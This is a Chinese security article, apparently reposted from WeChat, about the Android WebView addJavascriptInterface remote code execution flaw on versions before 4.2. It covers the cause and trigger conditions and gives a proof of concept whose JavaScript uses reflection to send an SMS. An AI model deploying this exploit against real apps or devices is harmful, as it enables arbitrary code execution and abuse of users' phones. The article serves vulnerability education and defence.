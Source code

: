 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzUyMTA0MjQ4NA==&mid=2247494408&idx=4&sn=164730d27202b87ca6d5eb453efc7300&chksm=f9e38453ce940d452c2128b4076ce2b8eb1117f9db5c82ac184b9921d58aaf367ef5ffd1e040&xtrack=1&scene=90&subscene=93&sessionid=1602460613&clicktime=1602461038&enterid=1602461038&ascene=56&devicetype=android-29&version=2700133e&nettype=WIFI&abtest\_cookie=AAACAA%3D%3D&lang=zh\_CN&exportkey=AWYzc4aP69lznA3dHbIppA8%3D&pass\_ticket=pnZyakhq2QtF7v%2BQGAstZmv9NWQqvCbmLpFuJMx7SDuTICrEgZVu5Jm0CpXMMg4E&wx\_header=1)

推荐两本自己读过的书，学习的路上免不了啃书，

1\. WebView 远程代码执行漏洞描述
----------------------

      Android API level 16 以及之前的版本存在远程代码执行安全漏洞，该漏洞源于程序没有正确限制使用 WebView.addJavascriptInterface 方法，远程攻击者可通过使用 Java Reflection API 利用该漏洞执行任意 Java 对象的方法，简单的说就是通过 addJavascriptInterface 给 WebView 加入一个 JavaScript 桥接接口，JavaScript 通过调用这个接口可以直接操作本地的 JAVA 接口。

2\. WebView 远程代码执行影响范围
----------------------

      Android API level 小于 17 (即 Android 4.2 之前的系统版本)  

3.WebView 远程代码执行漏洞详情
--------------------

### 1) WebView 远程代码执行漏洞位置:

      WebView.addJavascriptInterface(Object obj, String interfaceName)   

### 2)WebView 远程代码执行漏洞触发前提条件：

      使用 addJavascriptInterface 方法注册可供 JavaScript 调用的 Java 对象；  
      使用 WebView 加载外部网页或者本地网页；  
      Android 系统版本低于 4.2；  

### 3) WebView 远程代码执行漏洞原理：

      Android 系统通过 WebView.addJavascriptInterface 方法注册可供 JavaScript 调用的 Java 对象，以用于增强 JavaScript 的功能。但是系统并没有对注册 Java 类的方法调用的限制。导致攻击者可以利用反射机制调用未注册的其它任何 Java 类，最终导致 JavaScript 能力的无限增强。攻击者利用该漏洞可以根据客户端能力为所欲为。  

4\. WebView 远程代码执行漏洞 POC
------------------------

      1) 利用 addJavascriptInterface 方法注册可供 JavaScript 调用的 java 对象 “injectedObj”，利用反射机制调用 Android API sendTextMessage 来发送短信。  
      java 代码：  

```
mWebView = new WebView(this);
mWebView.getSettings().setJavaScriptEnabled(true);
mWebView.addJavascriptInterface(this, "injectedObj");
mWebView.loadUrl("file:///android\_asset/www/index.html");
```

      EXP 的 JavaScript 代码：  

```
<html>
   <body>
      <script>
         var objSmsManager =     injectedObj.getClass().forName("android.telephony.SmsManager").getM ethod("getDefault",null).invoke(null,null);
          objSmsManager.sendTextMessage("10086",null,"this message is sent by JS when webview is loading",null,null);
       </script>
   </body>
</html>
```
